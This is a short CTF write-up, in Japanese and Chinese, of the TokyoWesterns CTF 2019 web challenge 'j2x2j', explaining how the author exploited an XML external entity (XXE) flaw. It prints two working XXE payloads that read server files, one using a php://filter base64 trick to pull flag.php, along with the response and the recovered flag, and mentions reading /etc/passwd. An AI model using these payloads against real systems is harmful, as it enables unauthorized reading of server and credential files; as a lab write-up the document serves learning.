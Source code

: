 ```yaml
---
layout: post
title:  TokyoWesterns CTF 5th 2019 Write up
date:   2019-09-03 11:49:50 -0400
categories: CTF
---
```

今回のTokyoWesterns CTF 5th 2019で、私とSinonさん(遅くて来たｗ)はチームweRubb1shで参加しました。 122 ptsで298位でした。 私は一問を解けただけ。 悔しいです。 

## [Web] j2x2j (Point: 59)

在做pwn的途中卡住了 所以跑去做做web
自己對於XXE是沒什麼認識 這次是第一次動手去做XXE

完結了之後才發現view source的話會看到`include 'flag.php'`
我是在url裡打`/flag.php`才知道有flag.php在 :P
去google裡找到以output出`/etc/passwd`來確定XXE的方法 再在那個json<->xml試試 `/etc/passwd`真的出來了
之後再把website在server的location找出來
如果directory或file不存在的話 `failed to decode xml`會出現
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///var/www/html/sample.json">]>                                                             
<message>
<message>&xxe;</message>
<title>xml</title>
</message>
```
這樣去找出了`sample.json`了

由於flag在寫了在php裡 直接把`sample.json`換成`flag.php`還是會看不到東西
所以用以下的payload把`flag.php`用base64 encode拿出來

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/flag.php">]>                                                             
<message>
<message>&xxe;</message>
<title>xml</title>
</message>
```
```json
{
    "message": "PD9waHAKJGZsYWcgPSAnVFdDVEZ7dDFueV9YWEVfc3QxbGxfZXgxc3RzX2V2ZXJ5d2hlcmV9JzsK",
    "title": "xml"
}
```
```php
<?php
$flag = 'TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}';

```
